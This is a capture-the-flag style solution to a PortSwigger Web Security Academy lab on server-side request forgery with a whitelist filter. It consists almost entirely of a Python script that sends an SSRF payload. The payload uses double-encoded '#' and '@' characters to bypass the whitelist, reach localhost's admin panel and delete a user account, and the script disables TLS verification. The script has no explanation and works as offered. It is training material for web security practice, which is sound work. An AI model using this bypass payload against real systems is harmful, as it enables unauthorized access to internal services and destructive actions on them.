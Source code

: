 # Lab: SSRF with whitelist-based input filter

Link to lab: https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0a6d00a604cebe45c2f8ac6000c100a2.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
}

data = 'stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos'

response = requests.post(
    'https://0a6d00a604cebe45c2f8ac6000c100a2.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)
```